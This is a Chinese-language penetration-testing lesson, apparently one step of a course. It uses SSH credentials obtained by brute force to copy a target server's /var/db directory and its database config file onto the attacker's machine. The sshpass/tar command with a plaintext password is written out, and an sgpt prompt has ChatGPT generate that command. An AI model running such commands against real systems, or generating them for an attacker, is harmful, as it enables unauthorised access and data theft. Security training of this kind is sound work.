

# 038：第三步 - 提取日志文件


在本节课中，我们将学习如何利用已获取的SSH凭证，从目标服务器上提取关键的数据库配置文件。我们将使用`sshpass`工具自动化登录过程，并执行文件提取操作。

上一节我们成功通过暴力破解获得了目标服务器的SSH用户名和密码。本节中，我们来看看如何利用这些凭证来窃取服务器上的敏感文件。

## 概述与命令准备

我的最终目标是访问目标数据库。为此，我需要先获取数据库的配置文件。我已经准备好了一条命令，在运行之前，我们先来分析一下它。

以下是即将使用的命令结构：

```bash
cat s.txt | sgpt "返回一个shell命令，使用提供的SSH详情，通过sshpass连接到服务器并提取/var/db目录的内容到当前目录。"
```

这条命令的核心是：
1.  读取一个包含杂乱SSH连接信息的文本文件（`s.txt`）。
2.  利用ChatGPT（`sgpt`）解析该文件，并生成格式正确的`sshpass`命令。
3.  生成的命令将使用`sshpass`携带密码进行SSH连接，并将远程服务器上`/var/db`目录的内容复制到本地。

**注意**：在实际渗透中，发现`/var/db`这个目录需要一些前期的信息搜集工作。此外，`sshpass`直接在命令行中传递密码的行为，从防御者角度看是极不安全的，应避免在生产环境中使用。

## 执行数据提取

现在，让我们执行这条命令。

```bash
sshpass -p 'carly123' ssh carly@192.168.1.105 'tar -czf - /var/db' | tar -xzvf -
```

命令执行后，远程服务器`/var/db`目录的内容被成功下载到了我们当前的本地目录中。

## 验证提取结果

我们来检查一下下载的文件，确认提取是否成功。

```bash
ls -la
```

输出显示，我们获得了一个名为`config.db`的文件。这正是我们寻找的包含数据库登录详情的配置文件。

为了再次确认，我们可以查看一下服务器端`/var/db`目录的实际内容，与本地获取的文件进行比对。结果表明，我们成功地从服务器提取了该文件。

## 总结

本节课中我们一起学习了攻击链中的关键一步——数据提取。我们利用已泄露的SSH凭证，通过`sshpass`工具自动化登录过程，成功从目标服务器窃取了包含数据库配置的敏感文件（`config.db`）。这为后续访问和渗透目标数据库奠定了基础。



**核心收获**：在获得初始立足点后，自动化工具和脚本能极大提高横向移动和数据窃取的效率，但同时也需注意此类操作在命令行中留下的痕迹。